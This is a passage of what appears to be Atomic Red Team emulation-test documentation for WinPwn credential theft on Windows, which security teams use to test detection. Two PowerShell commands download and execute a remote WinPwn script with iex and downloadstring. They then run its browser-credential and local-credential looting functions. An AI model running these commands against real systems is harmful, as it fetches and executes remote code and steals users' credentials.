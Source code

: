 <br/>
<br/>

## Atomic Test #11 - WinPwn - BrowserPwn

Collect Browser credentials as well as the history via winpwn browserpwn function of WinPwn.

**Supported Platforms:** Windows

**auto_generated_guid:** 764ea176-fb71-494c-90ea-72e9d85dce76

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
browserpwn -consoleoutput -noninteractive
```

#### Cleanup Commands:

```powershell
rm .\System.Data.SQLite.dll -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #12 - WinPwn - Loot local Credentials - mimi-kittenz

Loot local Credentials - mimi-kittenz technique via function of WinPwn - Extend timeout to 600s

**Supported Platforms:** Windows

**auto_generated_guid:** ec1d0b37-f659-4186-869f-31a554891611

#### Attack Commands: Run with `powershell`!

```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
kittenz -consoleoutput -noninteractive
```

<br/>
<br/>

## Atomic Test #13 - WinPwn - PowerSharpPack - Sharpweb for Browser Credentials

PowerSharpPack - Sharpweb searching for Browser Credentials technique via function of WinPwn

**Supported Platforms:** Windows
